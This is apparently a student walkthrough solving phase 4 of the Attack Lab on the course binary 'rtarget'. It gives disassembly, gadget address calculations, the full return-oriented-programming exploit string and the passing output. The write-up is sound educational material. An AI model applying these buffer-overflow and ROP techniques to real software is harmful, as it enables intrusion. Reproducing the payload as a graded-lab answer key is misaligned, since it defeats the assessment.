 ```c
objdump -d rtarget
```
```c
0000000000401808 <touch2>:
  401808:	48 83 ec 08          	sub    $0x8,%rsp
  40180c:	89 fe                	mov    %edi,%esi
  40180e:	c7 05 e4 2c 20 00 02 	movl   $0x2,0x202ce4(%rip)        # 6044fc <vlevel>
  401815:	00 00 00 
  401818:	3b 3d e6 2c 20 00    	cmp    0x202ce6(%rip),%edi        # 604504 <cookie>
  40181e:	75 1b                	jne    40183b <touch2+0x33>
  401820:	bf 68 2f 40 00       	mov    $0x402f68,%edi
  401825:	b8 00 00 00 00       	mov    $0x0,%eax
  40182a:	e8 51 f4 ff ff       	callq  400c80 <printf@plt>
  40182f:	bf 02 00 00 00       	mov    $0x2,%edi
  401834:	e8 c0 03 00 00       	callq  401bf9 <validate>
  401839:	eb 19                	jmp    401854 <touch2+0x4c>
  40183b:	bf 90 2f 40 00       	mov    $0x402f90,%edi
  401840:	b8 00 00 00 00       	mov    $0x0,%eax
  401845:	e8 36 f4 ff ff       	callq  400c80 <printf@plt>
  40184a:	bf 02 00 00 00       	mov    $0x2,%edi
  40184f:	e8 57 04 00 00       	callq  401cab <fail>
  401854:	bf 00 00 00 00       	mov    $0x0,%edi
  401859:	e8 92 f5 ff ff       	callq  400df0 <exit@plt>
  
  00000000004017c6 <getbuf>:
  4017c6:	48 83 ec 18          	sub    $0x18,%rsp <= 0x18 is 24 Bytes
  4017ca:	48 89 e7             	mov    %rsp,%rdi
  4017cd:	e8 38 02 00 00       	callq  401a0a <Gets>
  4017d2:	b8 01 00 00 00       	mov    $0x1,%eax
  4017d7:	48 83 c4 18          	add    $0x18,%rsp
  4017db:	c3                   	retq   
  ```
  ```c
  emacs phase4.s
  ```
  
  ```c
  mov %rax, %rdi
  ret
  ```
  ```c
  gcc -c phase4.s
  ```
  ```c
  objdump -d phase4.o > phase4.d
  ```
  ```c
  emacs phase4.d
  ```
  ```c
  0000000000000000 <.text>:
   0:   48 89 c7                mov    %rax,%rdi
   3:   c3                      retq
  ```
  Save the file with <kbd>CTRL</kbd>+<kbd>x</kbd> then <kbd>CTRL</kbd>+<kbd>c</kbd> then <kbd>y</kbd>


Gadget 1
  ```c
0000000000401970 <setval_352>:
  401970:	c7 07 e6 58 90 c3    	movl   $0xc39058e6,(%rdi)
  401976:	c3                   	retq  
  ```
Address + bytes to get 58 in front = gadget1
401970 + 3 = 401973

Gadget 2
```c
0000000000401984 <getval_322>:
  401984:	b8 48 89 c7 c3       	mov    $0xc3c78948,%eax
  401989:	c3                   	retq   
```
Address + bytes to get 48 89 c7 in front = gadget2
401984 + 1 = 401985

cookie = 48 c7 c7 9f 5f 19 19 c3

```c
emacs phase4.txt
```

```c
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00 /* padding */
73 19 40 00 00 00 00 00 /* gadget 1 */
9f 5f 19 19 c3 00 00 00 /* Cookie with first 3 bytes removed */
85 19 40 00 00 00 00 00 /* gadget 2 */
08 18 40 00 00 00 00 00 /* touch2 address */
```
Save the file with <kbd>CTRL</kbd>+<kbd>x</kbd> then <kbd>CTRL</kbd>+<kbd>c</kbd> then <kbd>y</kbd>
```c
./hex2raw < phase4.txt > raw-phase4.txt
```
Just to see what hex2raw does to the bytes in phase4.txt we run
```c
emacs raw-phase4.txt
```
```c
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@s^Y@^@^@^@^@^@\237_^Y^Y\
\303^@^@^@\205^Y@^@^@^@^@^@^H^X@^@^@^@^@^@
```
Save the file with <kbd>CTRL</kbd>+<kbd>x</kbd> then <kbd>CTRL</kbd>+<kbd>c</kbd> then <kbd>y</kbd>
```c
./rtarget < raw-phase4.txt
```

```c
Cookie: 0x19195f9f
Type string:Touch2!: You called touch2(0x19195f9f)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```